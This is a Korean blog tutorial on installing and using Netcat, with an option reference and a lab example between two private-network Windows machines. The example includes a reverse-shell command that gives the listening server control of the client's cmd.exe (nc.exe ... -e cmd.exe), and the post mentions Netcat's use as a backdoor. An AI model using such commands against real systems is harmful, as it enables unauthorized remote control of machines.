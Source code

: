 ```yaml
---
layout: post
title:  "[NC] NetCat 설치 및 사용하기"
date:   2016-09-08 19:23:13
author: Choi HyeSun
categories: infra
tags:
  - CentOS
  - NC
  - NetCat
---
```


## NC(Netcat)

- Netcat(이하 nc)은 Network connection에서 raw-data read, write를 할 수 있는 유틸리티 프로그램

- 일반적으로는 UNIX의 cat과 비슷한 사용법을 가지고 있지만 cat이 파일에 쓰거나 읽듯이 nc는 network connection에 읽거나 씀

- 스크립트와 병용하여 network에 대한 debugging, testing tool로써 매우 편리

- 해킹에도 이용범위가 매우 넓음

- 임의의 TCP, UDP 포트에서 상대방 TCP, UDP로 데이터를 보내는 도구

- nc.exe 실행파일과 명령어를 통해 백도어 기능을 사용할 수 있음

<br>
<br>

## 사용법

- nc \[options] \[target host] \[ports]

- options

  - \-4: IPv4

  - \-6: IPv6

  - \-D: socket 디버깅 가능

  - \-d: STDIN 입력을 읽어들이지 않음

  - \-h: help

  - \-i: send/recv, multiple port 연결 사이의 interval 지정. 

  - \-k: listening 모드로 실행되었을 때 연결이 완료되더라도 프로세스가 종료되지 않도록 하는 옵션.
  <br>-l 옵션과 함께 사용되지 않으면 에러.

  - \-l: listening 모드로 실행. -p, -s, -z 옵션과 함께 사용되면 에러. -w 옵션은 무시됨.

  - \-n: hostname을 ip로만 지정.

  - \-p: source port 지정. -l 옵션과 함께 사용되면 에러.

  - \-r: source/destination port를 범위로 지정했을 때 랜덤한 순서로 연결시도.

  - \-S: RFC 2385 TCP MD5 signature 옵션.

  - \-s: 패킷을 전송할 IP 지정. -l 옵션과 함께 사용되면 에러.

  - \-T: 연결에 ToS 지정.

  - \-C: CRLF line-ending 전송.

  - \-t: netcat을 telnet session으로 사용가능 하게.

  - \-U: Unix Domain Socket을 사용하도록 지정.

  - \-u: UDP 사용.

  - \-v: 과정 출력

  - \-w: connection/stdin timeout 지정. -l 옵션과 함께 사용하면 무시됨. 

  - \-X: proxy version 지정.

  - \-x: proxy server의 hostname, port 지정.

  - \-z: 아무 데이터도 전송하지 않고 listening daemong만 스캔. -l 옵션과 함께 사용하면 에러.
 
<br>
<br>

## 예시

- 다음과 같은 환경 준비

  - Server : win7 / ip 192.168.10.64
  - Client : win XP / ip 192.168.10.22

  - 서버 및 클라이언트에 nc.exe 설치

  - IP 주소 확인

- 첫 번째. Server에서 1234포트를 열고 nc.exe를 실행한 후 대기

  - C:\\> nc.exe –lvp 1234
  
- 두 번째. Client가 Server의 1234 포트로 접속하여 nc.exe를 실행하고 cmd.exe의 권한을 서버에게 부여

  - C:\\> nc.exe 192.168.10.64 1234 –e cmd.exe
  
  - Server는 client의 cmd.exe 권한을 갖게 됨

- 세 번째. Server는 client의 cmd.exe를 통해 작업을 할 수 있음
 
  - C:\> ipconfig했을 때 Client의 IP 정보를 볼 수 있음
